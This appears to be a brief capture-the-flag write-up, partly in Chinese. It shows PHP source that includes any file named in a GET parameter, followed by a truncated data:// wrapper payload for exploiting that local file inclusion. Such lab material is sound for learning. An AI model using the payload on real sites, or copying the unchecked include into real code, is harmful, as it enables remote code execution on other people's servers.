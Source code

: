 # 知识点
# 思路
### 源码
```bash
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```
### payload
```bash
?file=data://text/plain,<?php 
```
![image.png](./images/20231018_0001227635.png)
